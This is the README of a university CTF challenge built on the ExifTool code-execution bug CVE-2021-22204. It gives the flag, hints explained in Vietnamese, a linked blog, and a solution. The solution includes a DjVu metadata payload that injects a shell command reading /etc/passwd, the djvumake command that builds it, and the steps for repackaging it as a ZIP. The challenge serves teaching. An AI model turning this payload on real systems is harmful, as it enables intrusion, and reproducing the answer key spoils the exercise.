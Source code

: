 # ctf-challenges

![Zip](banner.PNG)

## Challenge:  Zip! achievement
## Description

Give me a zip file, I will tell you all about it, including the flag in /etc/flag.txt/

## Hint 

1. Do you know CVE-2021-22204
2. I think blog of vakzz bug hunter is very interesting

## Flag 

```sh
HCMUS-CTF{CVE_22204_1s_v3ry_1nt3r3st1ng}
```

## Ý tưởng

Challenge được lấy ý tưởng từ cve-2021-22204 ( cve này được sử dụng đểtạo payload dạng jpeg dùng cho việc exploit Gitlab). Đây là một trong những CVE khá nổi tiêng gần đây. Vì mã khai thác dưới dạng format hình ảnh (jpeg) đã có sẵn, nên đề ra sẽ customize lại, yêu cầu mã khai thác phải ở định dạng ZIP mới có thể lấy được flag.

## Giải thích

### Description: Give me a zip file, I will tell you all about it, including the flag in /etc/flag.txt/

Giúp các bạn sinh viên biêt được file flag nằm ở /etc/flag.txt nhằm phục vụ cho mục đích viết payload.

### Hint 1. Do you know CVE-2021-22204

Biêt được đây là CVE-2021-22004 và người cho chơi thể tìm kiếm các blog để tạo được mã khai thác dưới định dạng dễ nhât là *Djvu* 

### Hint 2: I think blog of vakzz bug hunter is very interesting
 
 Giúp các bạn sinh viên có thể tìm ra được blog của author (https://devcraft.io/2021/05/04/exiftool-arbitrary-code-execution-cve-2021-22204.html).
 Ở blog giúp các bạn sinh viên hiểu rõ về bug và các tạo mã khai thác dưới định dạng jpeg. Các bạn cần nắm vững kiên thức ở quy trình tạo payload jpeg, từ đó chỉ cần một số bước nhỏ có thể tạo payload ở dạng ZIP ( cuối blog tác giả cũng đã giải thích cho các tạo payload ở định dạng zip nhưng không có mì ăn liền, vì vậy có làm mới có ăn.)
 
## Cách giải

1. Tạo payload Djvu bắng Djvumake ( payload có sẵn trong blog nhưng các tạo thì các bạn sinh viên cũng phải tự research)

Tạo file payload.txt với nội dụng:
```
(metadata
    (Author "\
" . cat '/etc/passwd'; #")
)
```

Sử dụng Djvumake để tạo payload dạng Djvu
```
djvumake exploit.djvu INFO=0,0 BGjp=/dev/null ANTa=payload.txt
```

2. Tạo payload dạng .zip bằng các đổi tên `exploit.djvu` thành `meta.json` và nén lại.


## Install

Clone project...

```sh
git clone https://github.com/hongson97/ctf-challenges.git
```

Replace IP api trong templates/upload.html thành IP của server deploy

Chạy docker-compose...

```sh
cd ctf-challenges
docker-compose up
```


